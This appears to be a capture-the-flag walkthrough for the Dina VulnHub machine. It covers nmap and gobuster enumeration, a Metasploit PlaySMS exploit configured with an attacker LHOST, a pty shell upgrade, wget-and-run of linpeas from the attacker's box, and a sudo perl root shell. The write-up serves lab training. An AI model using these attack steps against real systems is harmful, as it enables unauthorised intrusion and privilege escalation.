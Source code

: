 **Link to CTF:**

[Hack the Dina VM (CTF Challenge) - Hacking Articles](https://www.hackingarticles.in/hack-dina-vm-ctf-challenge/)

**Link to VM:**

[Dina: 1.0.1](https://www.vulnhub.com/entry/dina-101,200/)

## Enumeration

**Nmap Port Scan:**

- **Command:**
    
    ```powershell
    nmap -A -oN scan <MACHINE-IP>
    ```
    
- **Results:**
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/95fa80c9-fc09-41c7-a313-856f4155a90a/8d6c3479-7eac-490b-87fb-bf3000899181/Untitled.png)
    

**Service Versions Found:** 

- **80 | Apache | 2.2.22**

**Gobuster Scan:**

- **Command:**
    
    ```powershell
    gobuster dir -u http://<MACHINE-IP-HERE> -w /usr/share/wordlists/dirb/big.txt
    ```
    
- **Results:**
    
    ```powershell
    /.htpasswd
    /.htaccess
    /cgi-bin/
    /index
    /nothing
    /robots.txt
    /robots
    /secure
    /server-status
    /tmp
    /uploads
    ```
    

**Source Code:**

<aside>
💡 inspect element in the “/nothing” web directory to find a list of secret passwords, make a wordlist with those passwords on your kali box.

</aside>

_missing jump between password list and playsms exploit

## Exploitation

**Exploit Found:**

[PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)](https://www.exploit-db.com/exploits/48335)

**Metasploit Module:**

- **Payload**
    
    ```jsx
    use exploit/multi/http/playsms_uploadcsv_exec
    ```
    
- **Options**
    
    ```jsx
    set rhost 192.168.43.219
    set lhost 192.168.43.171
    set username touhid
    set password diana
    set targeturi /SecreTSMSgatwayLogin
    ```
    

**Navigation:**

- **Get a shell on the machine**
    
    ```jsx
    shell
    ```
    

- **Upgrade to an interactive shell**
    
    ```jsx
    python -c 'import pty; pty.spawn("/bin/sh")'
    ```
    

## Privilege Escalation

**Linpeas is in the “~/Tools” Directory of all the machines**

https://github.com/carlospolop/PEASS-ng/releases

**Linpeas:**

- **Host a Python Server from “~/Tools” on the Kali Box**
    
    ```jsx
    python3 -m http.server 80
    ```
    
- **Download Linpeas on to the vulnerable machine**
    
    ```jsx
    CD into Uploads Directory
    ```
    
    ```jsx
    wget http://<KALI-IP>/linpeas.sh
    ```
    
    ```jsx
    chmod +x linpeas.sh
    ```
    
    ```jsx
    ./linpeas.sh
    ```
    

<aside>
💡 We find that Perl has Sudo privileges without having to authenticate as a Sudo user “/user/bin/perl”

</aside>

[perl
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

**Get a root shell:**

```jsx
sudo perl -e 'exec "/bin/bash";'
```

**PWN3D!**